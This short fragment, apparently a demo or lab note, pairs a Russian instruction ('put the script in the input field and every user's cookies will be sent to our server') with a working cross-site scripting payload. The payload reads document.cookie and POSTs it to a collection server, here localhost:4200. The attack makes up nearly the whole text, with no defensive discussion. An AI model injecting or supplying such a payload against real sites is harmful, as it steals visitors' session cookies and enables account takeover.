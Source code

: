 Укажите скрипт в поле ввода и куки каждого пользователя будут оправляться на наш сервер

<script>fetch('http://localhost:4200', { 
    method: 'post',
    body: JSON.stringify(document.cookie),
    headers: {
        'content-type': 'application/json'
    }
}).then(alert(''))</script>
